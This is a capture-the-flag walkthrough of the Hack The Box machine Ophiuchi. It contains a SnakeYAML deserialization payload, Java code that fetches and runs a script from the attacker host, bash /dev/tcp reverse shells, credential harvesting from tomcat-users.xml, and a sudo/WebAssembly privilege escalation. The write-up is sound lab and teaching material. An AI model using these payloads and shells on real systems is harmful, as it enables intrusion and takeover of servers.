


# Ophiuchi

## Details

- **Points**: 30
- **Difficulty**: Medium
- **Operating System**: Linux
- **IP Address**: 10.10.10.227

## Table of Contents

- Foothold
  - [Network Scanning](#network-scanning)
  - [Web Application Enumeration](#web-application-enumeration)
  - [SnakeYAML Library](#snakeyaml-library)
  - [SnakeYAML Deserialization Vulnerability](#snakeyaml-deserialization-vulnerability)
  - [Getting Initial Foothold](#getting-initial-foothold)
  - [Note on Initial Foothold](#note-on-initial-foothold)
- User
  - [Apache Tomcat Configuration File](#apache-tomcat-configuration-file)
  - [Getting the User Flag](#getting-the-user-flag)
- Root
  - [Wasmer Go: WebAssembly runtime for Go](#wasmer-go-webassembly-runtime-for-go)
  - [wabt: WebAssembly Binary Toolkit](#wabt-webassembly-binary-toolkit)
  - [Getting the Root Flag](#getting-the-root-flag)

## Walkthrough

### Network Scanning

As usual, let's start with scanning the network with Nmap.

```
$ sudo nmap -sC -sV -O -oA nmap/out -p$(nmap -T4 -p- 10.10.10.227 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed "s/,$//") 10.10.10.227
[sudo] password for kali:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-05 20:38 AEST
Nmap scan report for 10.10.10.227
Host is up (0.022s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Parse YAML
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.60 seconds
```

### Web Application Enumeration

There is a Apache Tomcat webserver running on port 8080 on the remote machine. Let's check out the web application running on it.


Let's try to input a valid YAML into the text area.


and click on the **PARSE** button.


### SnakeYAML Library

Although the feature seems to be disabled due to security reason, let's keep on testing the web app since there is no other open ports. We can keep testing the app manually or using tools, such as [`wfuzz`](https://github.com/xmendez/wfuzz), which we will use in this scenario.

We can start testing the app by inputting bad characters, such as `'`, '!' and so on, into the textarea. With Kali Linux, we don't need to create our own list of bad characters as there is an existing list at `/usr/share/wordlists/wfuzz/Injections/bad_chars.txt`

We can start testing with the following command.

```
$ wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/bad_chars.txt -d "data=FUZZ" http://10.10.10.227:8080/Servlet
```

According to `wfuzz --help`, `-c` will color the output to make it easier to view, `-z` is needed to specify the type of the payload (in this case, a `file`) and its corresponding parameter (in this case, the `file`'s path).

If we inspect the web app,


when the **PARSE** button is clicked, it will perform a POST request to `http://10.10.10.227:8080/Servlet`. Therefore, we also need `-d` to perform a POST request to the webserver and `FUZZ` will be replaced by the payload.

The output is as follows


It looks like some symbols caused an error on the webserver as it returns [status code 500](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/500).

Trying to replicate the error by manually inputting one of the bad characters, such as `'`, gives us a more detailed error message.


Now, we know that snakeyaml is running on the server. Let's do some research on this library.

### SnakeYAML Deserialization Vulnerability

A quick Google search leads us to [this article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858), which shows us that snakeyaml library has a deserialization vulnerability and how to exploit it.

In that article, the payload used was:

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```

According to the article, if snakeyaml sees `!!` when parsing YAML, it will interpret the following code as a Java class and call the constructor for the class.

In this scenario, the payload above should be the equivalent of the following

```java
new ScriptEngineManager(new URLClassLoader(new URL("http://attacker-ip/")))
```

it will class the constructor for Java's [ScriptEngineManager](https://docs.oracle.com/en/java/javase/11/docs/api/java.scripting/javax/script/ScriptEngineManager.html) class, which can accept a ClassLoader (in this case, [URLClassLoader](https://docs.oracle.com/javase/7/docs/api/java/net/URLClassLoader.html) is passed and, in turn, it accepts [URL](https://docs.oracle.com/javase/7/docs/api/java/net/URL.html)) as the constructor's argument.

According to ScriptEngineManager's [documentation](https://docs.oracle.com/en/java/javase/11/docs/api/java.scripting/javax/script/ScriptEngineManager.html), ScriptEngineManager will then send a request to the URL, `http://attacker-ip/`, and ask for an implementation of `ScriptEngineFactory` and execute it.
Therefore, if we can implement our own `ScriptEngineFactory`, we will be able to get a code execution on the server.

For now, let's try to input the following payload to the textarea and setup a python web server on our local machine with `python -m http.server 9999`.

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.59:9999"]
  ]]
]
```


Although no error is raised, we still get a request on our python webserver.

```
$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
10.10.10.227 - - [05/Jul/2021 21:45:57] code 404, message File not found
10.10.10.227 - - [05/Jul/2021 21:45:57] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -
```

As explained earlier, ScriptEngineManager makes a request to the attacker ip address and asks for ScriptEngineFactory implementation with a specific directory structure. Since we still don't have the implementation, our server returns 404.

### Getting Initial Foothold

[This GitHub repository](https://github.com/artsploit/yaml-payload) provides a template that we can easily use to exploit the vulnerability. It has the directory structure that we want and an initial implementation of ScriptEngineFactory. Let's clone it.

The initial implementation in the repository doesn't give us a reverse shell. Let's change the implementation of the AwesomeScriptEngineFactory's constructor to the following

```java
public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl -o /tmp/script 10.10.14.59:9999/script");
            Runtime.getRuntime().exec("bash /tmp/script");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

Next, let's create a file named `script`, which will be requested by the remote machine using curl based on the implementation above.

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.59/4444 0>&1
```

Now, let's compile `AwesomeScriptEngineFactory.java` to create `AwesomeScriptEngineFactory.class` with the following command:

```
javac AwesomeScriptEngineFactory.java
```

and create a new python server inside the `src` directory `cd yaml-payload/src && python3 -m http.server 9999`.

Additionally, create a `nc` listener for our reverse shell `nc -nlvp 4444` in another terminal window.

Finally, input the payload specified earlier to the textarea to create ScriptEngineManager and click **PARSE**.

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.59] from (UNKNOWN) [10.10.10.227] 42364
bash: cannot set terminal process group (793): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ whoami
whoami
tomcat
bash-5.0$
```

python server logs:

```
$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
10.10.10.227 - - [05/Jul/2021 22:08:16] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 200 -
10.10.10.227 - - [05/Jul/2021 22:08:16] "GET /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 200 -
10.10.10.227 - - [05/Jul/2021 22:08:17] "GET /artsploit/AwesomeScriptEngineFactory.class HTTP/1.1" 200 -
10.10.10.227 - - [05/Jul/2021 22:08:17] "GET /script HTTP/1.1" 200 -
```

### Note on Initial Foothold

You might be wondering why we can't simply execute "bash -i >& /dev/tcp/10.10.14.59/4444 0>&1" in the constructor, i.e.

```java
public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("bash -i >& /dev/tcp/10.10.14.59/4444 0>&1");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

I find the following post in the [discussion forum](https://forum.hackthebox.eu/discussion/4361/official-ophiuchi-discussion) for the Ophiuchi box.


### Apache Tomcat Configuration File

Next, since we know that Apache Tomcat webserver is running on the remote machine, let's search for its configuration as it often contains user credentials.

[A quick Google search](https://www.mulesoft.com/tcat/tomcat-configuration) reveals that, by default, the configuration file can be found inside `TOMCAT-HOME/conf` directory.

Since we are already the user `tomcat`, we can simply `cd ~` to go to TOMCAT-HOME. Then, `cd conf`. Inside the `conf` directory, there are several configuration files. Let's check out `tomcat-users.xml` as it most likely contains the users credentials.

```
bash-5.0$ echo $HOME
/opt/tomcat
bash-5.0$ cd ~
bash-5.0$ ls
bin           CONTRIBUTING.md  logs       RELEASE-NOTES  webapps
BUILDING.txt  lib              NOTICE     RUNNING.txt    work
conf          LICENSE          README.md  temp
bash-5.0$ cd conf
bash-5.0$ ls
catalina.policy      jaspic-providers.xml  server.xml        web.xml
catalina.properties  jaspic-providers.xsd  tomcat-users.xml
context.xml          logging.properties    tomcat-users.xsd
bash-5.0$
```

And sure enough, we managed to find the password for the user `admin` in `tomcat-users.xml`.

```
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

and we can confirm that `admin` is a user in the remote machine by going to `/home`.

```
bash-5.0$ ls /home
admin
```

### Getting the User Flag

We can try to SSH into the remote machine as user `admin` with password `whythereisalimit` and hope that the tomcat password is re-used as the SSH password.

```
$ ssh admin@10.10.10.227
admin@10.10.10.227's password:
# -- snip --
-bash-5.0$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
-bash-5.0$
```



### Wasmer Go: WebAssembly runtime for Go

Run `sudo -l` to list out commands that the current user can run as root.

```
-bash-5.0$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

as user `admin`, we can run a go language program `/opt/wasm-functions/index.go` as root without password. Let's read and understand what the program does.

```
-bash-5.0$ cat /opt/wasm-functions/index.go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

We can read the detailed wasmer package API documentation [here](https://pkg.go.dev/github.com/wasmerio/wasmer-go/wasmer).

Essentially, the program will open the file `main.wasm` and read the bytes from there. It extracts an object called `info` (most likely a function) assign it to variable `init` and execute it.

If the `info` function returns 1, it will execute `deploy.sh`, which is what we want to obtain the root shell.

Note that `main.wasm` and `deploy.sh` are specified as relative path instead of absolute path, which means that the files must exist inside the current directory, which we execute the script in.

`main.wasm` and `deploy.sh` are both defined inside `/opt/wasm-functions` in the remote machine. Executing the program there results in `Not ready to deploy`.

```
-bash-5.0$ cd /opt/wasm-functions
-bash-5.0$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Not ready to deploy
```

Which means that we need to create our own `main.wasm` and `deploy.sh` to control the program flow. However, we can't simply `cat main.wasm` as it contains bytes instead of string.

### wabt: WebAssembly Binary Toolkit

What we can do now is to install [wabt](https://github.com/WebAssembly/wabt) in our local machine. It contains a set of tools, such as `wasm2wat` and `wat2wasm`, that we need to translate from WebAssembly binary format (wasm) to WebAssembly text format (wat) and vice versa.

Also, download `main.wasm` from the remote machine so that we can translate the file to text format using `wasm2wat`.

Use the following command to translate the wasm file and output the translation to `main.wat`.

```
$ wasm2wat main.wasm | tee main.wat
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

In `main.wat`, we can see the declaration of the function `info`. It simply returns `i32` constant 0, which explains why running `index.go` earlier results in `Not ready to deploy`.

To understand WebAssembly text format, we can read more [here](https://developer.mozilla.org/en-US/docs/WebAssembly/Understanding_the_text_format).

We can simply change the function definition to the following

```
(func $info (type 0) (result i32)
    i32.const 1)
```

so that the function will always return 1.

### Getting the Root Flag

Compile the edited `main.wat` to `main.wasm` with the following command

```
wat2wasm main.wat
```

Upload the newly generated `main.wasm` to the remote machine. Also, create `deploy.sh` file as follows

```bash
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.59/4444 0>&1"
```

and move everything in `/tmp` on the remote machine.

Finally, execute `sudo /usr/bin/go run /opt/wasm-functions/index.go` from `/tmp`. Don't forget to setup a `nc` listener on your local machine.

```
-bash-5.0$ cd /tmp
-bash-5.0$ curl -O 10.10.14.59:9998/main.wasm
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   112  100   112    0     0   2153      0 --:--:-- --:--:-- --:--:--  2153
-bash-5.0$ vi deploy.sh
-bash-5.0$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
```

On the `nc` listener,

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.59] from (UNKNOWN) [10.10.10.227] 42384
root@ophiuchi:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
```


